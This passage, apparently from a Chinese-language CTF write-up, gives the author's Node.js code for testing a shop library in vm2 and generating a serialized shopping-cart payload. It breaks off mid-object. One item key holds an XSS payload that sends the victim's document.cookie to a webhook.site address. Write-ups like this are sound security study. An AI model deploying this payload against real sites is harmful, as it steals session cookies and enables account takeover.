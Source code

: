 最後，我拿來測試以及產生 payload 的程式碼如下：

``` js
const {VM, VMScript} = require("vm2");
const fs = require('fs');

const script = new VMScript(fs.readFileSync('./myshoplib.mjs').toString().replaceAll('export ','') + `
sendOrder(cart, orders)
`);

async function main () {
  let orders = [];

  let payload = JSON.stringify([
    {
        'key': 'cart',
        'type': 'pickledShoppingCart',
        'value': [
            {
                'key': 'items',
                'type': 'pickledObject',
                'value': [
                    {
                        'key': ['<img src=x onerror="location=`https://webhook.site/d8dc1452-8e82-408d-9dcf-8ad713754f36/?q=${encodeURIComponent(document.cookie)}`">'],
                        'type': 'pickledItem',
                        'value': [
                            {
                                'key': 'price',
                                'type': 'Number',
                                'value': 10
                            },
                            {
                                'key': 'quantity',
                                'type': 'String',
                                'value': '1'
                            }
                        ]
                    }
                ]
            },
            {
                'key': 'address',
                'type': 'pickledAddress',
                'value': [
                    {
                        'key': 'street',
                        'type': 'String',
                        'value': ''
                    },
                    {
                        'key': 'number',
                        'type': 'Number',
                        'value': 0
                    },
                    {
                        'key': 'zip',
                        'type': 'Number',
                        'value': 0
                    }
                ]
            },
            {
```